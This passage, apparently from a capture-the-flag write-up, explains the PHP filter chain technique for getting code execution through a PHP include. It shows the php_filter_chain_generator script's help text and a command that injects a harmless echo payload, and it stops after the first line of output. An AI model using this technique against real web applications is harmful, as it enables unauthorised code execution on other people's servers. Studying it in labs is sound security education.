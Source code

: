 The author of this attack figured out how to pass even an empty string into a
long chain of filters to produce any output on the page the user wants. And if
this is PHP output, because it’s in an `include`, then it will be executed.

Updated to add a [video](https://www.youtube.com/watch?v=TnLELBtmZ24) I did on
this technique:

### Exploit

For now, I’ll just use the [provided
script](https://github.com/synacktiv/php_filter_chain_generator) (I am
interested in doing a more in-depth explanation of how this works - let me
know if you’re interested).

I’ll clone the repo, and run the script:

    
    
    oxdf@hacky$ python php_filter_chain_generator.py -h                                                                                                          usage: php_filter_chain_generator.py [-h] [--chain CHAIN] [--rawbase64 RAWBASE64]
    
    PHP filter chain generator.
    
    options:
    -h, --help            show this help message and exit
    --chain CHAIN         Content you want to generate. (you will maybe need to pad with spaces for your payload to work)
    --rawbase64 RAWBASE64   The base64 value you want to test, the chain will be printed as base64 by PHP, useful to debug.
    

It takes a “chain”, which is the content I want to be a part of the page. I’ll
have it add some PHP that will echo a message. It generates this long output:

    
    
    oxdf@hacky$ python php_filter_chain_generator.py --chain '<?php echo "0xdf was here"; ?>'
    [+] The following gadget chain will generate the following code : <?php echo "0xdf was here"; ?> (base64 value: PD9waHAgZWNobyAiMHhkZiB3YXMgaGVyZSI7ID8+)